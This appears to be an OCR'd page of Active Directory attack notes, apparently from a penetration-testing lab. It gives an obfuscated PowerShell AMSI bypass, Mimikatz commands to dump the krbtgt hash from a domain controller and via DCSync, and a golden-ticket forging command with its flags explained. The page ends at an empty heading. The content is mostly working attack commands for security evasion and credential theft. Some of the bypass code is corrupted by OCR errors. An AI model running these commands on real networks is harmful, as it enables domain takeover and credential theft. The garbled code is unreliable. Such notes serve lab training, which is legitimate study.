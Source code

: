 ### <span style="color:#F1C232">2. AMSI bypass</span>

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{O}"-F'F', 'rE' ) ) 3; ( GeT-VariaBle ( "1Q2U" + "zX" )  -VaL_s+)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{@}{5}" -f'Util', 'A', 'Amsi','.Management.', 'utomation.','s', 'System' ))."g`etf`iE1D"( ( "{O}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{O}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

### <span style="color:#F1C232">3. Execute mimikatz on DC as DA to get krbtgt hash</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computer-name>
```

### <span style="color:#F1C232">4. Create a ticket on any machine ( "pass the ticket" attack )</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:domain-name-goes-here /sid:sid-goes-here /krbtgt:hash-goes-here id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

> **/ptt** : Inject the ticket in the current Powershell process/does not have the ticket on disk
> **/ticket** : Saves the ticket to a file for later use
> **/startoffset** : Put proper offset values according to the domain policy using 
> **(Get-DomainPolicy -domain moneycorp.local)."kerberos policy"** else the session might get blocked/not created
{: .prompt-info }

### <span style="color:#F1C232">5. List Kerberos services available</span>
 
```powershell
klist
```
## <span style="color:lightgreen">Extra Commands</span>

### <span style="color:#F1C232">To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges</span>
 
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
> Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC
{: .prompt-info }

### <span style="color:#F1C232">Using NTML hash of KRBTGT to create a Golden Ticket</span>
